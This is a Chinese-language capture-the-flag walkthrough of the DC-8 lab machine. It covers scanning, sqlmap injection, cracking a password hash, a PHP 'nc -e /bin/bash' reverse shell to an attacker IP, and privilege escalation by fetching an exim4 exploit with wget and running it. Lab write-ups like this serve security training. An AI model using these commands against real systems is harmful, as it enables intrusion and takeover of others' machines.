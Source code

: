 # DC-8靶机
---
title:  DC-8靶机
index: true
isOriginal : true
category:
  - 靶机
tag:
  - 靶机
---
1. 主机扫描使用arp-scan扫描工具  --localnet 扫描本地网络

    ![image](assets/image-20240823161457-pgp6fgl.png)

    ​`.1`​（通常是网关或路由器的地址）和`.255`​（广播地址）。而`.254`​ 经常被用作子网内的一个特殊设备（如DHCP服务器）的地址，但这不是一个固定的规则.
2. 使用Nmap端口扫描   -sV：探测开放端口以确定服务/版本信息；

    ​ **​`-p-`​** ​：这个选项告诉 Nmap 扫描目标上所有可能的端口（从 1 到 65535）。默认情况下，Nmap 只会扫描一些常见的端口，但使用 `-p-`​ 选项可以确保扫描所有端口

    ![image](assets/image-20240823161554-59k6g0p.png)
3. 使用dirsearch扫描目录 python3 dirsearch.py -u [target_url]  # 攻击目标url地址

    dirsearch -u 192.18.142 -e * -x 403 --random-agent

    ​`-e *`​ 参数表示使用所有内置的扩展名列表进行扫描

    ​`--random-agent`​ 在请求时使用随机的用户代理字符串，这有助于<span data-type="text" style="color: var(--b3-font-color11);">绕过</span>一些基于用户代理的访问控制或<span data-type="text" style="color: var(--b3-font-color11);">日志记录</span>。

    ​`-x 403`​ 参数在这里可能是想排除状态码为 403 Forbidden 的响应。

    ![image](assets/image-20240823161920-y7ou5i0.png)
4. 访问网站

    ![image](assets/image-20240823162555-zfdjykf.png)
5. 发现注入点

    ![image](assets/image-20240823162532-moh29a0.png)
6. sqlmap扫描

    ![image](assets/image-20240823162853-06gw6ag.png)
7. 发现存在注入

    布尔盲注、报错注入、时间盲注、联合查询

    ![image](assets/image-20240823162947-k74bvu6.png)
8. 扫描数据库

    sqlmap -u "http://192.168.18.142/?nid=1"<span data-type="text" style="color: var(--b3-font-color8);"> -dbs</span>

    ![image](assets/image-20240823163129-0rrigwx.png)

    ![image](assets/image-20240823163206-f78hkpj.png)
9. 根据数据库名扫描表

    sqlmap -u "http://192.168.18.142/?nid=1" -D d7db <span data-type="text" style="color: var(--b3-font-color8);">-tables</span>

    ![image](assets/image-20240823163307-9ifd68j.png)

    ![image](assets/image-20240823163507-clhbqmd.png)
10. 扫描users表

     ![image](assets/image-20240823163725-wpe8utp.png)

     得到后台账密

     ![image](assets/image-20240823163902-i0kh8wr.png)
11. 将密码复制出来保存到adpass.txt和johnpass.txt文件中，然后使用john工具进行爆破

     ![image](assets/image-20240823165442-hr30qfa.png)
12. 得到账户john的密码为turtle，账户admin的密码无法爆破

     使用dirb命令`dirb http://192.168.18.142`​  <span data-type="text" style="color: var(--b3-font-color9);">扫描网站目录和文件</span>

     dirb http://192.168.18.142

     ![image](assets/image-20240823165602-cbhqw6y.png)

     #### robots.txt

     是一个纯文本文件，在这个文件中网站管理者可以声明该网站中不想被robots访问的部分，robots.txt 文件规定了搜索引擎抓取工具可以访问您网站上的哪些网址。或者指定搜索引擎只收录指定的内容。

     当一个搜索机器人（有的叫搜索蜘蛛）访问一个站点时，它会首先检查该站点根目录下是否存在robots.txt
13. 登录上方页面找到登录地址

     ![image](assets/image-20240823165842-fy4d899.png)
14. 根据地址找到登录页面并登录

     ![image](assets/image-20240823170301-a66hd2d.png)
15. 然后将反弹shell的命令`  <?php system("nc -e /bin/bash 192.168.172.131 1234"); ?>   `IP地址为kali的IP地址  nc反向shell

     System()函数的主要功能是在系统权限允许的情况是执行系统命令
     ![image](assets/image-20240823170751-7fzsrm6.png)
16. 监听靶机

     ![image](assets/image-20240823171255-v45evn7.png)
17. 然后回到网站contact us的view页面，随便输入一些信息然后点击【submit】就可以反弹回shell

     ![image](assets/image-20240823171414-sf0oshv.png)
18. ![image](assets/image-20240823172027-9blx3e1.png)
19. 此时的shell不是交互式shell，所以使用命令`python -c "import pty; pty.spawn('/bin/bash')"`​获取一个交互式的shell

     ![image](assets/image-20240823172120-87zrua0.png)
20. 查看可以用于suid提权的命令    `find / -user root -perm -4000 -print 2>/dev/null`​ ★★

     * ​`find /`​：`find`​命令用于在目录树中搜索文件，并可以对搜索结果执行操作。这里的`/`​表示从<span data-type="text" style="color: var(--b3-font-color9);">根目录开始搜索整个系统</span>。
     * ​`-user root`​：这个选项告诉`find`​命令<span data-type="text" style="color: var(--b3-font-color9);">只查找属于用户</span>`root`​​​<span data-type="text" style="color: var(--b3-font-color9);">的文件</span>。`root`​是Linux系统中的超级用户，拥有对系统的完全访问权限。
     * ​`-perm -4000`​：这个选项用于查找具有特定权限的文件。`-perm`​后面跟的数字或符号<span data-type="text" style="color: var(--b3-font-color8);">表示文件的权限</span>。在这里，`-4000`​是一个特殊的权限位，它代表设置用户ID（<span data-type="text" style="color: var(--b3-font-color9);">SUID</span>）权限。当一个可执行文件具有SUID权限时，<span data-type="text" style="color: var(--b3-font-color10);">用户执行该文件时将以文件所有者的身份运行</span>（在这个例子中是`root`​）。这允许普通用户执行通常需要更高权限的操作。然
     * ​`-print`​：<u>​`find`​</u>​<u>命令默认会将找到的文件名输出到标准输出（通常是屏幕）。</u>​<u>​`-print`​</u>​<u>选项实际上在这里是隐式的，但明确写出来可以增强命令的可读性</u>。它告诉`find`​命令打印出找到的每个文件的路径。
     * ​`2>/dev/null`​：★★★**这部分是重定向的一部分**，用于处理错误消息。在shell中，`2`​​​​ <span data-type="text" style="color: var(--b3-font-color9);">代表标准错误</span>（stderr），而`>`​是重定向操作符。`/dev/null`​​​​ <span data-type="text" style="color: var(--b3-card-warning-color); background-color: var(--b3-card-warning-background);">是一个特殊的设备文件，通常被称为“空设备”或“黑洞”</span>。写入它的任何数据都会被丢弃，读取它时通常立即返回文件结束。因此，`2>/dev/null`​的意思是将<span data-type="text" style="background-color: var(--b3-font-background9);">所有标准错误输出重定向到</span>`/dev/null`​​​，这样就不会在屏幕上显示任何错误信息了。这对于<span data-type="text" style="color: var(--b3-font-color11);">忽略那些由于权限不足而无法访问的目录的错误消息</span>特别有用。

     ![image](assets/image-20240823172252-o2lclm6.png)
21. 发现一个比较奇怪的命令exim4，先查看一下命令版本   `/usr/sbin/exim4 --version`​

     ![image](assets/image-20240823172420-yd4wu1x.png)
22. ​`searchsploit exim 4`​     搜索可以利用的提权方法  选择使用46996.sh

     ![image](assets/image-20240823172747-pqj5ktm.png)
23. 使用靶机的wget命令将该脚本下载到靶机中，先将kali机的apache服务开启，命令`service apache2 start`​

     ![image](assets/image-20240823172859-ur2bqaa.png)
24. 将攻击脚本文件复制到Apache服务的根目录/var/www/html下，命令`cp /usr/share/exploitdb/exploits/linux/local/46996.sh /var/www/html/exp.sh`​

     ![image](assets/image-20240823172945-sucs3r3.png)
25. 在kali中使用set ff\=unix，告诉编译器，使用unix换行符，否则会无法使用脚本

     ![image](assets/image-20240823173330-wc4zp7y.png)

     ![image](assets/image-20240823173307-w46564x.png)
26. 在靶机反弹回来的shell处使用命令`wget http://192.168.172.131/exp.sh`​将脚本下载到靶机中

     由于前面目录没有权限所以换目录下载

     ![image](assets/image-20240823173820-3kumopa.png)

     ![image](assets/image-20240823173738-qnfdsv5.png)
27. 成功将exp.sh下载到靶机中，但是发现没有执行权限，使用命令`chmod +x exp.sh`​赋予脚本执行权限，并使用命令`./exp.sh -m netcat`​来执行脚本

     ![image](assets/image-20240823174320-u097but.png)

     ![image](assets/image-20240823175056-6wkl2da.png)
28. 提权成功，跳转到/root目录下即可查看flag

     ![image](assets/image-20240823175333-e6jwa9f.png)

‍
